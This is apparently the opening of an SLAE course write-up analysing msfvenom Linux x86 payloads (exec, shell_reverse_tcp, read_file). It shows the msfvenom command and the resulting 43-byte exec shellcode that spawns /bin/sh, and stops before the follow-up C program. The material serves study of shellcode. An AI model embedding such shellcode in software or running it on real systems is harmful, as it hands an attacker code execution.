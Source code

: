 ![Encoder](/assets/images/msfvenom.jpg)

The 3 Msfvenom examples that will be presented:

* <code class="language-plaintext highlighter-rouge">linux/x86/exec</code> 
* <code class="language-plaintext highlighter-rouge">linux/x86/shell_reverse_tcp</code> 
* <code class="language-plaintext highlighter-rouge">linux/x86/read_file</code> 

#### 1st Shellcode (linux/x86/exec)
--------

The exec payload will generate shellcode which spawns a <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell using the <code class="language-plaintext highlighter-rouge">CMD</code> parameter:

```bash
osboxes@osboxes:~/Downloads/SLAE$ msfvenom -p linux/x86/exec CMD=/bin/sh --arch x86 --platform linux -f c
No encoder or badchars specified, outputting raw payload
Payload size: 43 bytes
Final size of c file: 205 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
```

A C program scripted with the newly generated shellcode:
